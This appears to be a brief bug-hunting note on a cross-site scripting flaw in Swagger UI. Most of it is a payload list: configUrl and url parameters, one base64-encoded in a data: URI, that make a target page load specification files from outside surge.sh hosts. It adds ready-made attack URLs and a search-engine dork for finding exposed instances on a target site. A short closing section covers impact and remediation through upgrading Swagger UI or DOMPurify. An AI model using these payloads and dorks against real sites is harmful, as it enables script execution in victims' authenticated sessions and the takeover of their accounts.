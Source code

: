 
## Swagger UI can be found at /classicapi/doc/

### Payloads:

• `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`

• `?configUrl=https://jumpy-floor.surge.sh/test.json`

• `?url=https://jumpy-floor.surge.sh/test.yaml`

• The payload might not work, so we move on to the next payload, and so on.

### Final payload examples:
- `https://example.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`

- `https://example.com/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json`

- `https://example.com/classicapi/doc/?url=https://jumpy-floor.surge.sh/test.yaml`

### Find Swagger UI using dorks:
`intext:"Swagger UI" intitle:"Swagger UI" site:yourtarget.com`
(the dork yields some false positives, but it's good enough)

### Impact:
- an attacker can execute arbitrary js code in the context of <vulnerable_url>
- it means he can do whatever authenticated user at <vulnerable_url> could do

### Remediation:
- q: you have found a vulnerable swagger ui version in your organization, now what?
- a: it is simple, just update to the latest version. check out npm-update for more info

- q: what if you can't upgrade the whole swagger ui package?
- a: you can upgrade only the dompurify package that is used by swagger ui

